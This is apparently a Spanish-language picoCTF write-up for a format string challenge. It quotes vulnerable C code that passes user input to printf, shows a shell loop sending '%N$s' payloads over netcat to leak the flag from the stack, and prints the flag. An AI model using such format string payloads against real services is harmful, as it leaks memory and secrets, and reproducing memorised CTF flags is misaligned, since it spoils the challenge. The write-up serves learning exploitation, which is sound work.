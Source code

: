 ## Descripción
Story telling class 1/2

Additional details will be available after launching your challenge instance.

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 63535`

## Pistas 
Format Strings

## Solución
- Nos conectamos usando `nc saturn.picoctf.net 63535`
```
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 53935
Tell me a story and then I'll tell you one >> aśñdlkfas
Here's a story - 
aśñdlkfas
```
- El código que nos proporcionaron es el siguiente:
```
┌──(kali㉿kali)-[~]
└─$ cat vuln.c.2   
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
                                        
```
- El programa está directamente imprimiendo el texto que ingresamos. Así que podemos pasarle funciones en formato de cadenas y símbolos.
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 53935 | grep -Ei (pico|ctf); done 
CTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
```


## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas Adicionales
Una vulnerabilidad de cadena de formato es un error en el que la entrada del usuario se pasa como argumento de formato a printf , scanf u otra función de esa familia. El argumento de formato tiene muchas especificaciones diferentes que podrían permitir que un atacante filtre datos si controla el argumento de formato para printf

## Referencias

https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/#:~:text=A%20format%20string%20vulnerability%20is,the%20format%20argument%20to%20printf%20.